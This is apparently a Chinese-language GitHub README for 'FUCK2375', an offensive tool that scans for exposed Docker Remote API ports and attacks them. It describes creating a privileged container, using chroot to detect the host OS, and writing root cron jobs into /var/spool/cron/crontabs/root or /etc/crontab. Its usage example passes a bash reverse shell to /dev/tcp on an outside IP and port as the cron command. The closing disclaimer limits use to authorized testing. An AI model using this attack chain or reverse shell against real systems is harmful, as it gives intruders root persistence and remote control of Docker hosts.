




# FUCK2375

在编译之前记得导入一下项目中所需的github的包

旨在实现攻击2375端口的Docker Remote API

设置了两个功能，扫描2375端口和攻击2375端口

攻击代码思路为：

- 探测2375端口是否开放
- 创建docker连接获取本地镜像
- 把第一个镜像作为例子创建一个特权容器（如果本地没有镜像会去拉取ubuntu:latest然后去创建）
- 连接容器为宿主机设置执行计划任务

下面是使用方法：

~~~
-target 指定目标IP
-croncmd 指定计划任务需要执行的命令
-action 有两个值scan、attack，scan只做2375端口扫描，attack做2375端口扫描和攻击
-container 可选值，指定创建漏洞容器的名称，默认值为test_HgYCC3HqP1111
示例：
FuckDocker2375 -action attack -target 192.168.135.66 -croncmd "bash -c 'bash -i >& /dev/tcp/192.168.135.4/4447 0>&1'" -container test111
FuckDocker2375 -action scan -target 192.168.135.1-255
~~~

由于Ubuntu和centos执行计划任务不同所以先`chroot /mnt cat /etc/lsb-release`和`chroot /mnt cat /etc/redhat-release`来探测目标机器是Ubuntu还是centos然后根据不同返回计划任务有所不同

- ubuntu：ubuntu执行计划任务是直接往/var/spool/cron/crontabs/root写内容然后为其设置权限为600

  

- centos：centos执行计划任务是直接往/etc/crontab中写内容

  

下面是扫描功能测试：

**仅作为授权攻击，谨慎使用，否则后果自负**

